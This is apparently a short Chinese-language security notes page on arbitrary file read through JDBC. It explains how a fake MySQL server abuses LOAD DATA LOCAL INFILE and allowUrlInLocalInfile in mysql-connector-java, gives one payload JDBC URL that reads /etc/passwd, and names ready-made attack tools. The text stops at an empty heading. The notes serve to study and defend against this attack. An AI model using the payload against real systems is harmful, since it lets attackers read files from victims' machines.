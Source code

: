 # JDBC内容汇总

# jdbc任意文件读取

### 原理

**1、 load data infile**

load data infile：将服务器上的文件插入表中。

load data local infile：将客户端的文件插入表中。

**2、 allowUrlInLocalInfile**

能够使用URL类支持的所有协议，进行SSRF获取file协议读取本地文件。

在mysql-connector-java包中 存在sendFileToServer方法。

**具体过程**

需要达到能够读取客户端任意文件目的，伪造的mysql服务端必须能够发送以下几个数据包：

* 向mysql client发送Server greeting包；
* 对mysql client的登录包做Accept all authentications响应(即任意用户密码都能登录)；
* 等待 Client 端发送一个Query Package；
* 回复一个file transfer请求。

具体 payload 如下   jdbc:mysql://127.0.0.1:3306/DB\_NAME?user\=fileread\_file:///etc/passwd&maxAllowedPacket\=655360&allowUrlInLocalInfile\=true

### 利用

可以直接利用fake-mysql-cli 和 java-chains 现成脚本工具直接使用

## jdbc
